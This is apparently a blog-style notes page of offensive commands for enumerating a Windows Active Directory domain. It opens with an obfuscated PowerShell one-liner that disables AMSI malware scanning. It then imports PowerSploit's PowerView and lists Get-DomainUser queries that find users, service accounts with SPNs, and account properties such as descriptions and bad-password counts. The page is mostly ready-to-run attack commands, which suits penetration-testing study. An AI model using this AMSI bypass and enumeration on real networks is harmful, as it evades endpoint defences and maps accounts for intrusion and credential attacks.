 ```yaml
---
title: Windows AD Domain Enumeration
published: 2025-02-11
description: "Commands for enumerating windows AD"
image: "./img/img.jpg"
tags: [Notes ,AD, windows]
category: 'Notes'
draft: false
---
```


# User Enumeration

## bypass AMSI

```bash
powershell -ep bypass
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Download powerview
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

```bash
import .\Powerview.ps1
```

## Get a list of users in the current domain
```bash
Get-DomainUser
Get-DomainUser -Name student1
```

## Find User Accounts used as Service Accounts
```bash
Get-DomainUser -SPN
```

## Get list of all properties for users in the current domain
```bash
Get-DomainUser -Properties pwdlastset
Get-DomainUser -Properties badpwdcount
Get-DomainUser -Properties lastlogon
Get-DomainUser -Properties description
Get-DomainUser -Properties samaccountname,description
```
